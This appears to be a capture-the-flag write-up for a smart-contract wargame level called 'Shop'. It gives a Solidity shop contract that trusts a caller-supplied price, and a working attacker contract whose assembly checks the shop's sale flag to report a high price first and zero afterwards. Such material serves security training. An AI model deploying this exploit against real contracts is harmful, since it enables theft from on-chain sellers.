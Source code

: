 # Level 21 - Shop

### Objective

The objective of this level is as follows:

1. Сan you get the item from the shop for less than the price asked?

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

### Solution

Solution inspired by [this_post](https://medium.com/@this_post):

```
contract solveShop {

    Shop public shop;

    constructor(address shopAddr) public {
        shop = Shop(shopAddr);
    }

    function price() external returns (uint) {
    assembly {
        mstore(0x100, 0xe852e741)
        mstore(0x120, 0x0)
        let result := staticcall(gas(), sload(0x0), 0x11c, 0x4, 0x120, 0x20)
        if iszero(mload(0x120)) {
           mstore(0x150, 0x64)
           return(0x150, 0x20)
        }
        mstore(0x150, 0x0)
        return(0x150, 0x20)
    }
}

    function call() public {
        shop.buy();
    }
}
```

Done!
